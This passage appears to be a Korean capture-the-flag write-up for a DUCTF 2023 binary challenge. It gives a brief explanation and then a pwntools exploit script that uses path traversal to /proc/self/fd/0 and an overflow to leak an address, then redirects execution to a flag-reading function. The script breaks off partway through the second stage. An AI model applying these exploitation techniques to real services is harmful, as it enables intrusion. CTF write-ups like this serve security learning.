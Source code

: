 PIE가 걸려있기 때문에 leak을 먼저 해서 코드 영역 주소를 알아내고, 다시 트리거 해서 RET를 flag를 읽어주는 `win`함수 주소로 덮어씌우면 됩니다.

### Exploit

```python
from pwn import *

r = remote('2023.ductf.dev', 30011)

r.recvuntil(b'0\n')

# [1] view mail for leak
print('view_mail')

r.send(p32(4)+p64(9))
r.send(b'view_mail')

# path traversal
print(r.recvuntil(b'username').decode())
r.send(p32(3)+p64(17))
r.send(b'../proc/self/fd/0')

# password check
print(r.recvuntil(b'password').decode())
r.send(p32(3)+p64(1))
r.send(b'\x03')
r.send(p32(5)+p64(1))
r.send(b'\x03')

r.send(p32(6)+p64(127)) # tag str from
r.send(b'a'*127)

r.send(p32(7)+p64(0xffffffffffffffff)) # tag str msg
r.send(b'\x30'*(0x4b0-0x18-0x80-0x10+1)+p32(0x4b8-0x7f)+b'\x00\x00\x00\x00')

r.recvuntil(b'message')
r.recvuntil(b'\x00'*6)

r.recv(8*3)

d = r.recv(8)
d = u64(d)
print(hex(d))

win = d - (0x1ef6 - 0x126e)
print('win : '+hex(win))


# [2] view mail for win
print('view_mail')

r.send(p32(4)+p64(9))
r.send(b'view_mail')

print(r.recvuntil(b'username').decode())
r.send(p32(3)+p64(17))
r.send(b'../proc/self/fd/0')

print(r.recvuntil(b'password').decode())
r.send(p32(3)+p64(1))
r.send(b'\x03')
r.send(p32(5)+p64(1))
r.send(b'\x03')

```